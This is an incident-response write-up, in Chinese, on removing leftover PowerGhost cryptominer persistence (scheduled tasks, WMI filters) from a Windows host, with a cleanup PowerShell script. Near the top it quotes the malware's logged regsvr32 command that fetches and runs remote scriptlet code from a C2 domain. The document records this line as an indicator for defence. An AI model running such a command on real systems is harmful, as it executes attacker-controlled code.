




# PowerGhost

## 事件背景

EDR 记录多台主机频繁访问恶意域名 `auth[.]to0ls[.]com`，匹配 PowerGhost IoC。

记录命令行：

```
C:\\Windows\\system32\\regsvr32.EXE /u /s /i:http://auth.to0ls.com:443/antivirus.php scrobj.dll
```

记录父进程命令行：

```
C:\\Windows\\system32\\svchost.exe -k netsvcs
```

查看历史告警，主机每二十分钟一次 DNS 查询，时间非常规律。但在 EDR 中没有发现计划任务，`%SystemRoot%\System32\Tasks` 目录下也没有对应文件。

## 排查过程

详细的病毒分析写在[恶意软件分析::PowerGhost](../malwares/powerghost.md)，排查工作围绕着主机受感染表现和病毒分析时确认的恶意行为进行。

这类告警出现了几个月，过往的手段是 EDR 远程查杀或者让对应人员在终端上查杀一遍。可能是因为多次查杀，本地已经找不到病毒文件，只剩下持久化任务，至少我到场的时候是这样。

登录服务器，使用 [Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) 监控启动 `regsvr32.exe` 的进程，发现每隔 20 分钟就有一次：



启动命令行与 EDR 记录一致：



`事件查看器 > Windows 日志 > 应用程序和服务日志 > Microsoft > Windows > TaskScheduler` 中找到 ID 为 102（任务完成）的事件，显示计划任务 `Microsoft Assist Job` 执行成功，每 20 分钟一次：



`管理工具 > 任务计划程序 > 任务计划程序库` 中没有相关计划任务，`%SystemRoot%\\System32\\Tasks\` 目录下也没有相关文件，起初以为是病毒使用了计划任务隐藏手段，但后来经过分析，推测可能是历史病毒查杀处置导致的。

既然计划任务还在执行，那么说明注册表中还留有信息，Windows 7 以后计划任务注册表路径为：

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree
```

在注册表中找到刚刚看到的计划任务 `Microsoft Assist Job`，以及另一个恶意计划任务 `SystemFlushDns`。



查找 WMI 持久化：

```powershell
Get-WMIObject -Namespace root\Subscription -Class __EventFilter
Get-WMIObject -Namespace root\Subscription -Class __EventConsumer
Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding
```

```powershell
__GENUS          : 2
__CLASS          : __EventFilter
__SUPERCLASS     : __IndicationRelated
__DYNASTY        : __SystemClass
__RELPATH        : __EventFilter.Name="Systems Manage Filter"
__PROPERTY_COUNT : 6
__DERIVATION     : {__IndicationRelated, __SystemClass}
__SERVER         : COMPUTERNAME
__NAMESPACE      : ROOT\Subscription
__PATH           : \\COMPUTERNAME\ROOT\Subscription:__EventFilter.Name="Systems Manage Filter"
CreatorSID       : {1, 5, 0, 0...}
EventAccess      :
EventNamespace   : root\cimv2
Name             : Systems Manage Filter
Query            : SELECT * FROM __InstanceModificationEvent WITHIN 5601 WHERE TargetInstance ISA 'Win32_PerfFormattedD
                   ata_PerfOS_System'
QueryLanguage    : WQL
PSComputerName   : COMPUTERNAME


__GENUS                  : 2
__CLASS                  : NTEventLogEventConsumer
__SUPERCLASS             : __EventConsumer
__DYNASTY                : __SystemClass
__RELPATH                : NTEventLogEventConsumer.Name="SCM Event Log Consumer"
__PROPERTY_COUNT         : 13
__DERIVATION             : {__EventConsumer, __IndicationRelated, __SystemClass}
__SERVER                 : COMPUTERNAME
__NAMESPACE              : ROOT\Subscription
__PATH                   : \\COMPUTERNAME\ROOT\Subscription:NTEventLogEventConsumer.Name="SCM Event Log Consumer"
Category                 : 0
CreatorSID               : {1, 2, 0, 0...}
EventID                  : 0
EventType                : 1
InsertionStringTemplates : {}
MachineName              :
MaximumQueueSize         :
Name                     : SCM Event Log Consumer
NameOfRawDataProperty    :
NameOfUserSIDProperty    : sid
NumberOfInsertionStrings : 0
SourceName               : Service Control Manager
UNCServerName            :
PSComputerName           : COMPUTERNAME


__GENUS                 : 2
__CLASS                 : __FilterToConsumerBinding
__SUPERCLASS            : __IndicationRelated
__DYNASTY               : __SystemClass
__RELPATH               : __FilterToConsumerBinding.Consumer="CommandLineEventConsumer.Name=\"Systems Manage Consumer\"
                          ",Filter="__EventFilter.Name=\"Systems Manage Filter\""
__PROPERTY_COUNT        : 7
__DERIVATION            : {__IndicationRelated, __SystemClass}
__SERVER                : COMPUTERNAME
__NAMESPACE             : ROOT\Subscription
__PATH                  : \\COMPUTERNAME\ROOT\Subscription:__FilterToConsumerBinding.Consumer="CommandLineEventConsume
                          r.Name=\"Systems Manage Consumer\"",Filter="__EventFilter.Name=\"Systems Manage Filter\""
Consumer                : CommandLineEventConsumer.Name="Systems Manage Consumer"
CreatorSID              : {1, 5, 0, 0...}
DeliverSynchronously    : False
DeliveryQoS             :
Filter                  : __EventFilter.Name="Systems Manage Filter"
MaintainSecurityContext : False
SlowDownProviders       : False
PSComputerName          : COMPUTERNAME
```

发现持久化 WMI 过滤器 `Systems Manage Filter` 及其绑定，但消费者没有了。

## 处置方案

根据病毒行为，完整的处置方案如下：

1. 停止并删除相关进程：
    - 终止所有可疑的 PowerShell 进程
    - 查找并终止挖矿进程
1. 删除 WMI 持久化并重启 WMI 服务
    - 过滤器：`Systems Manage Filter`
    - 消费者：`Systems Manage Consumer`
    - 绑定：`Systems Manage`
    - 管理类：`Window_Core_Flush_Cach`
1. 删除计划任务并重启计划任务服务
    - `SystemFlushDns`
    - `Microsoft Assist Job`
1. 恢复 Windows Defender 设置
1. 删除临时文件
    - `$env:temp\cohernece.exe`
    - `$env:temp\java-log-9527.log`
1. 移除 IPsec 规则
    - `netbc`
1. 恢复电源设置
1. 阻止连接到 C2 服务器
    - `auth[.]to0ls[.]com`
    - `mail[.]to0ls[.]com`

但我这里情况特殊，只有残留计划任务和 WMI，所以我的处置方案只需要：

- 删除计划任务注册表项，重启计划任务服务
- 删除 WMI 持久化，重启 WMI 服务
- 在 hosts 里将 `auth[.]to0ls[.]com` 映射到 `127.0.0.1`

修改注册表需要权限，用了 [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)。

处置脚本如下，放在 `PsExec64.exe` 的同目录运行。我不是 PowerShell 高手，Claude 帮忙写的，总得来说算一个清理脚本。

```powershell title="PowerGhost-Cleanup.ps1" linenums="1"
Write-Host "警告: 此脚本将执行以下操作：" -ForegroundColor Yellow
Write-Host " - 修改 WMI 订阅 (删除恶意绑定、消费者和过滤器)" -ForegroundColor Yellow
Write-Host " - 删除恶意计划任务及相关注册表项" -ForegroundColor Yellow
Write-Host " - 修改 hosts 文件以阻止恶意域名" -ForegroundColor Yellow
Write-Host " - 重启 WMI 服务" -ForegroundColor Yellow
Write-Host " - 重启计划任务服务" -ForegroundColor Yellow
Write-Host ""
Write-Host "这些操作可能会暂时影响系统运行，请确保在执行前已保存所有工作。" -ForegroundColor Yellow
Write-Host "建议在执行前备份系统关键组件。" -ForegroundColor Yellow
Write-Host ""

$confirmation = Read-Host "是否继续执行? (Y/N)"
if ($confirmation -ne 'Y' -and $confirmation -ne 'y') {
    Write-Host "操作已取消。" -ForegroundColor Cyan
    Exit
}

Write-Host "开始清理 PowerGhost 恶意组件..." -ForegroundColor Yellow

Write-Host "正在清理 WMI 持久化..." -ForegroundColor Cyan

$bindings = Get-WmiObject -Namespace 'root\Subscription' -Class '__FilterToConsumerBinding'
$consumers = Get-WmiObject -Namespace 'root\Subscription' -Class 'CommandLineEventConsumer'
$filters = Get-WmiObject -Namespace 'root\Subscription' -Class '__EventFilter'

$maliciousBindings = $bindings | Where-Object { $_.Filter -like '*Systems Manage Filter*' }
if ($maliciousBindings) {
    Write-Host "发现恶意绑定，正在删除..." -ForegroundColor Red
    $maliciousBindings | Remove-WmiObject
    Write-Host "已删除恶意绑定" -ForegroundColor Green
} else {
    Write-Host "未发现恶意绑定" -ForegroundColor Green
}

$maliciousConsumers = $consumers | Where-Object { $_.Name -eq 'Systems Manage Consumer' }
if ($maliciousConsumers) {
    Write-Host "发现恶意消费者，正在删除..." -ForegroundColor Red
    $maliciousConsumers | Remove-WmiObject
    Write-Host "已删除恶意消费者" -ForegroundColor Green
} else {
    Write-Host "未发现恶意消费者" -ForegroundColor Green
}

$maliciousFilters = $filters | Where-Object { $_.Name -eq 'Systems Manage Filter' }
if ($maliciousFilters) {
    Write-Host "发现恶意过滤器，正在删除..." -ForegroundColor Red
    $maliciousFilters | Remove-WmiObject
    Write-Host "已删除恶意过滤器" -ForegroundColor Green
} else {
    Write-Host "未发现恶意过滤器" -ForegroundColor Green
}

$psExecPath = ".\PsExec64.exe"
if (-not (Test-Path $psExecPath)) {
    Write-Host "未找到 PsExec64.exe，请确保它在当前目录中" -ForegroundColor Red
    Write-Host "你可以从 https://docs.microsoft.com/en-us/sysinternals/downloads/psexec 下载" -ForegroundColor Yellow
    Exit
}

Write-Host "正在使用 PsExec64 清理恶意计划任务..." -ForegroundColor Cyan

$tempScriptPath = "$env:TEMP\CleanRegistry.ps1"
@"
# 删除恶意计划任务注册表项
`$taskPaths = @(
    "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\Microsoft Assist Job",
    "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\SystemFlushDns"
)

foreach (`$path in `$taskPaths) {
    if (Test-Path `$path) {
        `$taskId = (Get-ItemProperty -Path `$path -Name "Id" -ErrorAction SilentlyContinue).Id
        
        Remove-Item -Path `$path -Force -Recurse
        Write-Output "已删除任务: `$path"
        
        if (`$taskId) {
            `$taskPlainPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Plain\`$taskId"
            `$taskTasksPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\`$taskId"
            
            if (Test-Path `$taskPlainPath) {
                Remove-Item -Path `$taskPlainPath -Force -Recurse
            }
            
            if (Test-Path `$taskTasksPath) {
                Remove-Item -Path `$taskTasksPath -Force -Recurse
            }
        }
    } else {
        Write-Output "未发现计划任务: `$path"
    }
}
"@ | Out-File -FilePath $tempScriptPath -Encoding ASCII

Write-Host "正在以 SYSTEM 权限执行计划任务清理..." -ForegroundColor Yellow
& $psExecPath -s -i powershell.exe -ExecutionPolicy Bypass -File $tempScriptPath
Write-Host "PsExec64 计划任务清理完成" -ForegroundColor Green

Remove-Item -Path $tempScriptPath -Force

Write-Host "正在阻止恶意域名..." -ForegroundColor Cyan
$hostsPath = "$env:windir\System32\drivers\etc\hosts"
$hostContent = Get-Content -Path $hostsPath
if ($hostContent -notcontains "127.0.0.1 auth.to0ls.com") {
    Add-Content -Path $hostsPath -Value "`n127.0.0.1 auth.to0ls.com" -Force
    Write-Host "已在hosts文件中阻止恶意域名" -ForegroundColor Green
} else {
    Write-Host "恶意域名已在hosts文件中被阻止" -ForegroundColor Green
}

Write-Host "正在使用 PsExec64 重启服务以应用更改..." -ForegroundColor Cyan

$tempServiceScriptPath = "$env:TEMP\RestartServices.ps1"
@"
# 重启计划任务服务
Write-Output "重启计划任务服务..."
Restart-Service -Name Schedule -Force
Write-Output "计划任务服务已重启"

Write-Output "重启 WMI 服务..."
Restart-Service -Name Winmgmt -Force
Write-Output "WMI 服务已重启"
"@ | Out-File -FilePath $tempServiceScriptPath -Encoding ASCII

Write-Host "正在以 SYSTEM 权限重启服务..." -ForegroundColor Yellow
& $psExecPath -s -i powershell.exe -ExecutionPolicy Bypass -File $tempServiceScriptPath
Write-Host "PsExec64 服务重启完成" -ForegroundColor Green

Remove-Item -Path $tempServiceScriptPath -Force

Write-Host "清理完成。" -ForegroundColor Green
```

## 参考

- [ThreatBook SandBox Report: vercheck.ps1(b09db8539a449f671eb2e3b73e573e82288d1fa0edbe001a7b8e8d982f36446c)](https://s.threatbook.com/report/file/b09db8539a449f671eb2e3b73e573e82288d1fa0edbe001a7b8e8d982f36446c)
- [ThreatBook SandBox Report: vercheck.ps1(4566d352c3f21b13b0b63dfb85525144df0e53bd9bfe77f0b4e03670f3295ad5)](https://s.threatbook.com/report/file/4566d352c3f21b13b0b63dfb85525144df0e53bd9bfe77f0b4e03670f3295ad5)
- [ThreatBook SandBox Report: antivirus[1].php(7c9f4dd19e10a964b683107e8d7c1409e1dc7873c141cdb130bd3326dd0f9980)](https://s.threatbook.com/report/file/7c9f4dd19e10a964b683107e8d7c1409e1dc7873c141cdb130bd3326dd0f9980)
- [ThreatBook SandBox Report: aantivirus03DHW5V7.php(d48a6910ee332526b10d077dc0194542e6639d5dc21188eb4f3e01c47108b966)](https://s.threatbook.com/report/file/d48a6910ee332526b10d077dc0194542e6639d5dc21188eb4f3e01c47108b966)
- [ANY.RUN: vercheck.ps1](https://app.any.run/tasks/e462cd67-38c3-46db-963c-6f940c1270c0#)
- [Securonix Threat Research Knowledge Sharing Series: Hiding the PowerShell Execution Flow](https://www.securonix.com/blog/hiding-the-powershell-execution-flow/)
- [WuKung病毒处置办法：Powershell无文件挖矿查杀方法](https://wukungt.github.io/2019/05/16/Powershell%E6%97%A0%E6%96%87%E4%BB%B6%E6%8C%96%E7%9F%BF%E6%9F%A5%E6%9D%80%E6%96%B9%E6%B3%95/)
- [Microsoft Learn: Windows Server/Windows/commands/regsvr32](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/regsvr32)
- [Windows与Linux双平台无文件攻击：PowerGhost挖矿病毒最新变种感染多省份](https://www.freebuf.com/articles/system/219715.html)
- [SECURELIST: A mining multitool](https://securelist.com/a-mining-multitool/86950/)
- [计划任务的攻防战 | Window 应急响应](https://cloud.tencent.com/developer/article/2377196)
- [Windows计划任务的进阶](https://payloads.cn/2021/0805/advanced-windows-scheduled-tasks.html)
